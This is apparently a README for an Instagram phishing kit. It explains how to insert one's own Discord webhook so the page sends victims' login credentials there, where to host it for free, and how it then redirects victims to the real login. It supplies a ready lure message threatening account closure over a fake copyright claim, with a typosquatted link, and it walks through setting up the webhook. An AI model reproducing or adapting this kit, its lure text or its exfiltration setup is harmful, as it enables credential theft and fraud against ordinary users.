Usage :

My Instagram phishing page is really easy to use, you only have to replace [https://discord.com/api/webhooks/1282157795537453098/GwpK6Tlu2N_Ap_jfozn5C0ju2JD5ecXwu2hdOTk2QavV-JrqDOD_3FWm1FGDiV0V_qAq) on line 101 by your Discord webhook.
request.open("POST", "Webhook");

Next, you upload it to your website (like Netlify or 000webhost, they are free)
When someone will login you will receive his credentials and he will be redirected to the official Insta login page. (the one in the link, you can change it by editing the link and the js part in HTML on line 108).




send this msg directly to the victim. 
 
Hi Instagram User!

copyright infringement!
A Copyright violation has been detected in a post on your account.
if you think copyright infringement is wrong, you should provide feedback. Otherwise, your account will be closed within 24 hours. You can give feedback using the link below. Thank you for your understanding.

Copyright Form
https://lnstaagram.netlify.app/





To send phishing link via email
download email-sending.zip





how to create webhook server
go to discord.com
click add server
then name a server 
after creating server then go to integration in server setting
in integration create a webhook 

